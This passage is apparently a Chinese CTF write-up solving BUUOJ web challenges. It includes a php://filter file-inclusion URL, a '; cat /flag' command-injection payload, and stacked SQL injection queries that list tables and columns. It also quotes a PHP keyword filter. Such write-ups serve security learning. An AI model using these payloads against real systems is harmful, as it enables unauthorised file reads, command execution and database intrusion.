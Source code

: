 简单文件包含

```
http://157345b5-8e54-4d2e-941e-6fb6b6b90f65.node4.buuoj.cn:81/?file=php://filter/read=convert.base64-encode/resource=flag.php
```

## [ACTF2020 新生赛]Exec

![20220820230738](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820230738.png)

简单命令执行

`; cat /flag`

## [强网杯 2019]随便注

![20220820231136](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820231136.png)

sqlmap 是没有灵魂的

mysql 注入

order by 列数为 3

输入 select 时返回提示信息

```php
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

参考文章

[https://threezh1.com/2020/12/06/Mysql8%E6%96%B0%E7%89%B9%E6%80%A7%E7%BB%95%E8%BF%87SELECT%E8%BF%87%E6%BB%A4](https://threezh1.com/2020/12/06/Mysql8%E6%96%B0%E7%89%B9%E6%80%A7%E7%BB%95%E8%BF%87SELECT%E8%BF%87%E6%BB%A4)

一些思路

1. 表内注入
2. 堆叠注入
3. handler 注入
4. load_file() 直接读文件

load_file() 测试发现不行, 表内注入目前自己还没有找到相关资料...

先试一下堆叠注入

```sql
1'; show tables #
```

![20220820232858](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820232858.png)

成功执行, 出现了 1919810931114514 这个表, 猜测 flag 应该在这里面

```sql
1'; show columns from `1919810931114514` #
```
